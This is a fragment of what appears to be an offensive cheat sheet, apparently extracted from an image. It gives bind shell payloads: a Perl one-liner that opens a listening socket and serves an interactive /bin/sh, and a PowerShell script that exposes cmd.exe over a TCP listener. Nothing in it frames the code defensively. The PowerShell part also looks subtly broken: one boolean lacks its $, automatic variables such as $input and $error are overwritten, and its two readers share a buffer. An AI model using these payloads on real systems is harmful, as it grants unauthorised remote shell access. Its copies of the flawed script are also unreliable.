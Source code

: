 ```perl
perl -MIO::Socket::INET -e '$sock = new IO::Socket::INET (LocalHost => "0.0.0.0", LocalPort => "<PORT>", Listen => 1, ReuseAddr => 1); while ($conn = $sock->accept()) { $conn->autoflush(1); open(STDIN, "<&", $conn); open(STDOUT, ">&", $conn); open(STDERR, ">&", $conn); system("/bin/sh -i"); close $conn; }'
```

#### PowerShell

```powershell
$listener = New-Object System.Net.Sockets.TcpListener([System.Net.IPAddress]::Any, <PORT>);
$listener.Start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
$reader = New-Object System.IO.StreamReader($stream);
$writer = New-Object System.IO.StreamWriter($stream);
$writer.AutoFlush = $true;

$process = New-Object System.Diagnostics.Process;
$process.StartInfo.FileName = "cmd.exe"; # Or "powershell.exe"
$process.StartInfo.RedirectStandardInput = $true;
$process.StartInfo.RedirectStandardOutput = $true;
$process.StartInfo.RedirectStandardError = true;
$process.StartInfo.UseShellExecute = $false;
$process.Start();

$input = $process.StandardInput;
$output = $process.StandardOutput;
$error = $process.StandardError;

$buffer = New-Object byte[] 1024;

$output.BaseStream.BeginRead($buffer, 0, $buffer.Length, [AsyncCallback]{
    param($ar)
    $bytesRead = $output.BaseStream.EndRead($ar);
    if ($bytesRead -gt 0) {
        $writer.Write((New-Object System.Text.ASCIIEncoding).GetString($buffer, 0, $bytesRead));
        $output.BaseStream.BeginRead($buffer, 0, $buffer.Length, $ar, $null);
    }
}, $null);

$error.BaseStream.BeginRead($buffer, 0, $buffer.Length, [AsyncCallback]{
    param($ar)
    $bytesRead = $error.BaseStream.EndRead($ar);
    if ($bytesRead -gt 0) {
        $writer.Write((New-Object System.Text.ASCIIEncoding).GetString($buffer, 0, $bytesRead));
        $error.BaseStream.BeginRead($buffer, 0, $buffer.Length, $ar, $null);
    }
}, $null);

while ($client.Connected) {
    $line = $reader.ReadLine();
    if ($line -eq "exit") { break; }
    $input.WriteLine($line);
}

$client.Close();
$listener.Stop();
```
